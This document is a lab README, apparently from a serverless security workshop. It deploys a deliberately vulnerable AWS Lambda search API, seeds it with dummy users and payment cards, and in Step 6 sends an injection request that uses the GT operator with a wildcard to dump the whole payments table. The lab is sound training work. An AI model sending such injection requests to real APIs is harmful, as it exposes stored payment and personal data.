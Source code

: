 # **DynamoDB Injection**

---

> #### This attack/payload has been documented [here](https://medium.com/appsecengineer/dynamodb-injection-1db99c2454ac) article.
> #### On reading, you'll see that its a NoSQL Injection attack that's predicated on using the `gt` operator. One of the main reasons that this attack is made possible, is because of badly configured IAM privileges.

### **Lab Image : `Serverless`**

---

> **Note:** If you have not setup your aws cli follow [AWS-CLI-Configuration](../aws-configure/README.md) under the `Setup` section*

#### Step 1:

* Navigate to the `Serverless-Workshop` directory on the provisioned server

```commandline
cd /root/labs/Serverless-Workshop/
```

* Install the necessary requirements

```commandline
pip3 install pipenv
```
```commandline
pipenv shell
```
```commandline
pipenv install boto3
```
```commandline
pipenv install faker
```
```commandline
pipenv install huepy
```

---

#### Step 2:

* Navigate to `DynamoDB-Injection` directory

```commandline
cd /root/labs/Serverless-Workshop/DynamoDB-Injection
```

* Install the necessary requirements

```commandline
sls plugin install -n serverless-python-requirements
```

---

#### Step 3:

* Take a look at the contents of the `serverless.yml` [here](https://github.com/we45/Serverless-Workshop/blob/master/DynamoDB-Injection/serverless.yml)

```commandline
cat serverless.yml
```

---

#### Step 4:

* Deploy the function and wait for the deployment to complete.

```commandline
sls deploy
```

* Once the deployment is complete, an API endpoint(s) is displayed.

---

#### Step 5:

* Navigate to the `ops` directory within `DynamoDB-Injection`

```commandline
cd /root/labs/Serverless-Workshop/DynamoDB-Injection/ops
```

* Create dummy users

```commandline
python create_dummies.py users we45-sls-users
```

* Create dummy payment cards

```commandline
python create_dummies.py cards we45-sls-payments
```

---

#### Step 6:

* Run a genuine search against the database

```commandline
http POST <https://xxxx.execute-api.us-east-1.amazonaws.com/dev/dynamo-search> db=we45-sls-users search_term=Mark search_operator=EQ search_field=first_name
```
> ###### Replace the `URL` from **STEP 4**

* Now run the exploit

```commandline
http POST <https://xxxx.execute-api.us-east-1.amazonaws.com/dev/dynamo-search> db=we45-sls-payments search_term="*" search_operator=GT search_field=payment-card
```
> ###### Replace the `URL` from **STEP 4**

---

#### *Teardown*:

* Navigate to `DynamoDB-Injection` directory

```commandline
cd /root/labs/Serverless-Workshop/DynamoDB-Injection
```

* Remove the serverless function that was deployed

```commandline
sls remove --force
```

* Deactivate and exit from the python virtual-environment

```commandline
cd /root/labs/Serverless-Workshop/
```
```commandline
deactivate
```
```commandline
exit
```

